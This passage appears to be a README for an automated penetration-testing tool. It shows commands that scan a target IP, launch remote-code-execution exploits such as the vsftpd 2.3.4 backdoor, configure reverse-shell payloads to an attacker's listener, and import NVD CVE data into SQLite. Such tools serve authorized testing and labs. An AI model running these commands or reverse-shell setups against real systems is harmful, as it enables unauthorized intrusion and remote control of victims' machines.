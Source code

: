 
### **How to Actually Use This Thing**

#### Basic scan:
```bash
# Simple scan
sudo python3 backend/core/__init__.py 192.168.1.100 

# Full port range (takes longer)
sudo python3 backend/core/__init__.py 192.168.1.100 1-65535
```

#### With reverse shells:
```bash
sudo python3 backend/core/__init__.py 192.168.56.102

# It will ask:
Would you like to configure reverse shell payloads? (y/n): y
Enter your attack machine IP (LHOST): 192.168.56.1
Enter listener port (LPORT) [4444]: 4444
Select payload type [1-4]: 1
```

#### What you'll see:
```bash
 Found 50 RCE exploits with shell potential!
 Enhancing RCE exploit with reverse shell payload...

============================================================
EXPLOITATION SUMMARY
============================================================
 7 SUCCESSFUL EXPLOITS:
    3 RCE EXPLOITS WITH PAYLOAD (SHELL ACCESS):
     Port 21 (vsftpd 2.3.4): vsftpd 2.3.4 Backdoor Command Execution
     Port 22 (OpenSSH 4.7p1): SSH User Code Execution
   
Active Listeners:
    Port 4444: Listening for reverse shells
```

---

### **🚀 SQLite Performance Optimization (NEW)**

#### What Changed:
- **Replaced file-based CVE/CPE loading with SQLite database**
- **Massive performance improvements**: 30+ second startup → <5 seconds
- **Memory usage**: 2GB+ → ~100MB
- **Lookup speed**: Seconds → Milliseconds per service

#### How to Set Up:
```bash
# One-time data import (takes 5-10 minutes)
python3 backend/core/scanner/import_nvd_data.py --years 2023,2024,2025

# The script will:
# - Import 600,000+ CPEs from XML dictionary
# - Import 70,000+ CVEs from JSON feeds
# - Build indexed relationships for fast lookups
# - Create database at backend/core/data/nvd.db
```
